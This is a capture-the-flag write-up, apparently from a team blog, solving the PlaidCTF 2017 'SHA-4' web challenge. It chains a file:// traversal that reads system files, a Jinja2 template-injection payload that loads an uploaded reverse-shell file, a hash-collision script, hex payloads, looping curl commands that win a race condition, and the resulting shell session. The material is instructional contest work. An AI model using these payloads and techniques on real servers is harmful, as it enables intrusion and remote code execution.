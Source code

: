 ```yaml
---
layout: post
title: "PlaidCTF 2017 - SHA-4"
date:   2017-04-23 00:00
categories: CTF
tags: [PlaidCTF2017]
categories: [Web,Crypto]
author: jbz
---
```


## SHA-4
Web - 300 Points


### Writeup

This challenge provided two forms, one which allowed to post comments and a textarea which parses an hex encoded, ans1 enveloped input.

Solution *tl;dr*

    local file read, hash collision, template injection, race condition


#### Directory Traversal

It is trivial to find a directory traversal by using the `file://` uri scheme instead of the intended `http://` or `https://` ones. Once we obtain file-reading access, we can find the directory of the python webapp `/var/www/sha4` by getting the system version from `file:///etc/issue` and the cmdline from `file:///proc/self/cmdline`.

We can guess the existence of these 2 files:
[server.py](https://github.com/PequalsNP-team/pequalsnp-team.github.io/blob/master/assets/PlaidCTF2017/sha4_server.py)
[sha4.py](https://github.com/PequalsNP-team/pequalsnp-team.github.io/blob/master/assets/PlaidCTF2017/sha4_sha4.py)

By checking the code we can see a possible template injection here:

    return render_template_string(commentt, comment=out_text.replace("\n","<br/>"))

However we can't directly send an input containing characters such as `{}` or `/` because the function `is_unsafe()` checks if the comments contain non-whitelisted chars in `string.ascii_letters + string.digits + " ,.:()?!-_'+=[]\t\n<>"` before rendering it.

The code however seems a little strange for what it is intended to do. Let's check the whole `comments()` function:

{% highlight python %}
try:
  encoded = request.form['comment']
  encoded.replace("\n","\r")
  ber = encoded.decode("hex")
except TypeError:
  return render_template_string(bad)
f = "/var/tmp/comments/%s.txt"%hash(ber).encode("hex")
  
out_text = str(decode(ber))
open(f, "w").write(out_text)

if is_unsafe(out_text):
  return render_template_string(unsafe)

commentt = comment % open(f).read()
return render_template_string(commentt, comment=out_text.replace("\n","<br/>"))
{% endhighlight %}

So the code does the following:

 - hex decode the comment POST parameter
 - calculate the 'sha4' hash of the input
 - set the path `/var/tmp/comments/<hash>.file` as output
 - ASN.1 ber decode the input
 - write the decoded input to the file
 - check if it contains unsafe characters
 - if the previous check is false render the template

#### Template Injection

Since the webapp uses Flask, we can grab the code needed from [Exploring SSTI in flask](https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/) which hashes the following requirements to achieve Command Execution:

 - upload a python reverse shell payload
 - inject `{% raw  %}{{ config.from_pyfile('/var/tmp/comments/<hash>.file') }}{% endraw  %}` in the render_template function

The first part is simple, we just need to upload the file using the upload form and calculate its path with the `sha4` function.  
The second part is the hard one.  
If we take a closer look at the `comments()` function we can notice there's something a little unusual: why would the programmer write the input to disk, check if it's safe and read it back? It is already in the `out_text` variable!

This seems coded to purposely create a race condition situation and make the challenge solvable.
So basically, to exploit the template injection we need to:

 - find a `sha4` hash collision between two ASN.1 encoded strings: one containing `{% raw  %}{{ config.from_pyfile('/var/tmp/comments/<hash>.file') }}{% endraw  %}` and a safe one (which means without `{}` and `/`)
 - send both requests as fast as we can to have enough luck to exploit the race condition by overwriting the file `/var/tmp/comments/<collided hash>.txt` with the malicious payload while the script has passed the is_unsafe() check on the safe payload


#### Collision!

We find out that finding a collision is pretty easy.
For every char there is a colliding one for each position in the DES key (see sha4.py file).

We then calculate each colliding char for each forbidden char (`{}/`) with this small snippet

{% highlight python %}
def char_position_collision(char):
    for j in xrange(7):
        m1 = "a"*j + char
        for i in xrange(0,256):
            m2 = "a"*j+chr(i)
            if m1 != m2 and hash(m1) == hash(m2):
                print(m1,m2)
                break
char_position_collision("{")
char_position_collision("}")
char_position_collision("/")
{% endhighlight %}

We can use this [script](https://github.com/PequalsNP-team/pequalsnp-team.github.io/blob/master/assets/PlaidCTF2017/sha4_find_payload.py) that:

 1. takes our "bad" payload, and replace each "bad" character with its relative collision
 2. sets dummy padding at the start and at the end of the payload, since the hash function was appending a padding block that needs to collide as well
 3. encodes both "good" and "bad" payloads as ASN.1
 4. hashes them!

Here are the 2 payloads, ASN.1 encoded
```
0459617b7b636f6e6669672e66726f6d5f707966696c652820222e2e2f2e2e2f746d702f636f6d6d656e74732f64643331623464633435346336656337653031343736653032663865656163342e66696c652229207d7d61616161
0459616b73636f6e6669672e66726f6d5f707966696c652820222e2e2e2e2e3f746d702e636f6d6d656e74730f64643331623464633435346336656337653031343736653032663865656163342e66696c652229203d5d61616161
```

#### Finally, the Flag

Once we have the colliding payloads we just have to send both requests as fast as we can, possibly using multiple threads; so from a server with a fast connection we can simply open multiple tmux sessions, running one of the following command in each
{% highlight shell %}
while true; do curl --data 'comment=0459616b73636f6e6669672e66726f6d5f707966696c652820222e2e2e2e2e3f746d702e636f6d6d656e74730f64643331623464633435346336656337653031343736653032663865656163342e66696c652229203d5d61616161' http://sha4.chal.pwning.xxx/comments; done;
{% endhighlight %}
{% highlight shell %}
while true; do curl --data 'comment=0459617b7b636f6e6669672e66726f6d5f707966696c652820222e2e2f2e2e2f746d702f636f6d6d656e74732f64643331623464633435346336656337653031343736653032663865656163342e66696c652229207d7d61616161' http://sha4.chal.pwning.xxx/comments; done;
{% endhighlight %}

After a while the reverse shell should call back to our netcat listener:

{% highlight shell %}
$ whoami
www-data
$ uname -a
Linux chal-sha4 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
$ pwd
/var/www
$ ls
html
sha4
$ ls sha4
flag_bilaabluagbiluariglublaireugrpoop
server.py
server.pyc
sha4.py
sha4.pyc
sha4.wsgi
static
templates
$ cat sha4/flag_bilaabluagbiluariglublaireugrpoop
PCTF{th3 security aspect of cyber is very very tough}
{% endhighlight %}

